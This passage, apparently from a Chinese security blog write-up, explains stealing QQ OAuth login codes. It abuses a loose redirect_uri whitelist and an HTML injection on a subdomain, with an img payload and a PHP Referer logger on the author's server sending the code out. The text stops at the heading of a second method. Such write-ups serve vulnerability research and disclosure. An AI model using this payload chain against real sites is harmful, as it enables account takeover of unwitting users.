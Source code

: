 **Request 2：**(这个请求表示根据参数**code**的值进行个人用户凭证生成)

```http
GET /?uuid=65392bc3fc724fca8dcba23558f67ec8&code=120ED71CAECB11BAD538820E12B54664 HTTP/1.1
Host: a.com
```

**2 Response：**（setcookie返回用户凭证）

```http
HTTP/1.1 302 Moved Temporarily
Content-Length: 0
Connection: close
Set-Cookie: 用户凭证
Location: https://www.a.com/
Cache-Control: max-age=0
```

这时候我们就可以注意到问题了，请求1产生了一个链接，其就是QQ登陆的地址中的参数**redirect_uri**附带上**参数code的值**，而这个链接是生成用户凭证的，所以链接中的**参数code**也是至关重要的，看到这里我的攻击思路已经产生了：

假设QQ登陆的地址中的参数**redirect_uri**的值可以为我的网站，那么只要用户A点击我就可以根据网站日志访问记录获取参数**code**的值再根据请求2获取用户A在 http://a.com 的账号权限。

理想很好，现实残酷：

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x02.jpg)

这里QQ做了限制，我不需要去分析QQ关联的全部流程就能知道这里的参数client_id，其实就是 http://a.com 的QQ互联的服务id， http://graph.qq.com 根据client_id获取 http://a.com 的设置允许的参数**redirect_uri**的值再跟你输入的参数**redirect_uri**的值进行比较。

这时候我只需要对参数**redirect_uri**进行Fuzz就能知道哪些范围是允许的：

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-02-12/0x03.jpg)

http://a.com 的二级子域名可以为参数**redirect_uri**的值，目前我需要解决的就是如何根据 http://a.com 的二级子域名获取到code的值：

# **1.我有一个HTML注入漏洞**

漏洞地址：`http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E`

getref.php的内容为如下PHP代码：

```
<?php
file_put_contents("ref.txt", $_SERVER['HTTP_REFERER']);
?>
```

将漏洞地址作为参数**redirect_uri**的值，然后诱导用户A点击登陆，这时候跳转的链接就变成了：

> http://1.a.com/?xss=%3Cimg%20src="http://www.evilchen.cn/getref.php"%3E&code=120ED71CAECB11BAD538820E12B54664

跳转之后这个链接会做为HTTP Referer的值再请求[http://www.evilchen.cn/getref.php]，那么我的服务器就会接收到code的值，再根据Request 2的值填入，我就可以获取用户A在a.com的账号权限了

# **2.我能在其他地方引用外部资源**
